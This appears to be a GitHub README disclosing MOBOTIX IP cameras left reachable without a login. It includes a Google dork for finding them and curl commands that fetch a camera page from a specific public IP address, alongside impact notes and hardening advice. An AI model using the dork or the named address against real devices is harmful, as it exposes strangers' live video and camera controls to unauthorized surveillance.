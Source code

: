 # 📸 Unauthenticated Access to MOBOTIX IP Cameras via Direct IP

_Discovered and documented by **hasanwlip**_
![Screenshot 2025-06-16 032841](https://github.com/user-attachments/assets/1befe0f4-2a06-4ddc-a104-bf2c60c3eae8)


---

## 📝 Description

Multiple MOBOTIX IP cameras are publicly exposed on the internet and can be accessed directly via their IP addresses **without any authentication**. These systems allow anyone to view the camera interface and in some cases access live streams, snapshots, or even interact with PTZ functions.

This vulnerability is the result of misconfigured devices left accessible without enforcing login authentication, and is easily discoverable using a basic Google Dork.

---

## 🔎 Google Dork

```bash
intext:"© 2001-2025 MOBOTIX" -site:*.* -inurl:www
```

This Dork identifies IP-based publicly exposed MOBOTIX camera interfaces.

---

## 🧪 Proof of Concept (PoC)

```bash
# Step 1: Search via Google Dork
# Result example: http://195.70.120.133/

# Step 2: Visit the IP in a browser
# The camera interface loads directly without requiring any authentication.

# Step 3: Capture the camera interface content using cURL
curl http://195.70.120.133/cgi-bin/guestimage.html

# Optional: Save the raw HTML content to a file
curl http://195.70.120.133/cgi-bin/guestimage.html --output snap.html
```

> 🔐 No login is required. The interface, image stream, or control elements are publicly accessible.

---

## ⚠️ Impact

- Unauthenticated access to live video feed
- In some cases, control over camera functions (pan/tilt/zoom)
- Violation of privacy laws and surveillance leakage

---

## 📌 Recommendations

- Enforce HTTP basic authentication or token-based access
- Whitelist internal IPs or use VPN
- Remove public IP exposure and block access via firewall
- Regularly audit public-facing IoT devices

---

## 🔗 References

1. Google Dork Search: [MOBOTIX IP Dork](https://www.google.com/search?q=intext:%22%C2%A9+2001-2025+MOBOTIX%22+-site:*.*+-inurl:www)
2. Official Vendor Website: [https://www.mobotix.com/en](https://www.mobotix.com/en)
3. Exploited Instance: _(will be updated manually once published)_
4. Research and disclosure by: **hasanwlip**

---

## ✅ Status

This issue has been manually verified on multiple IPs. Dozens of exposed systems were accessible at the time of testing. The vulnerability stems from poor configuration, not a software flaw.

Feel free to fork or share responsibly under coordinated disclosure guidelines.

---

## 📬 Contact

For coordination or acknowledgment:
**hasanwlip** on GitHub / Telegram / email (optional to publish)

---

_This exploit is for educational and ethical research purposes only._

---
